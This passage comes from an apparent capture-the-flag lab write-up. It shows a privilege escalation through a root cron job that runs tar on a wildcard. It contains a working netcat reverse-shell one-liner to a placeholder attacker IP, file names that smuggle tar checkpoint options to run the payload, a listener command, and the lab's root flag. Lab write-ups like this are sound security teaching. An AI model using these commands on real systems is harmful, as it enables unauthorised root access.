 Looking at `/home/milesdyson/backups/backup.sh`:

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *

```

This script changes into `/var/www/html` and runs `tar` on everything in the directory. The problem is that it uses a wildcard (`*`). In tar, specially named files like `--checkpoint` or `--checkpoint-action` are treated as **options**, not just filenames. Since root is running this script, I can abuse it to execute arbitrary commands.

---

### Step 2 – Craft the payload

Inside `/var/www/html`, I created a shell script that launches a reverse shell back to my AttackBox:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACK_IP> 1234 >/tmp/f" > shell.sh
chmod +x shell.sh

```

---

### Step 3 – Add malicious tar options

I then created two empty files that tar would interpret as options:

```bash
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"

```

These files trick tar into executing `sh shell.sh` during its run.

---

### Step 4 – Catch the root shell

Finally, I started a listener on my AttackBox:

```bash
nc -lvnp 1234

```

After waiting about a minute for the cron job to trigger, tar executed my payload, and I received a reverse shell back as **root**. You have to be patience cause it did take me about a couple minutes.
> Q2: Root flag

> A2: 3f0372db24753accc7179a282cd6a949

---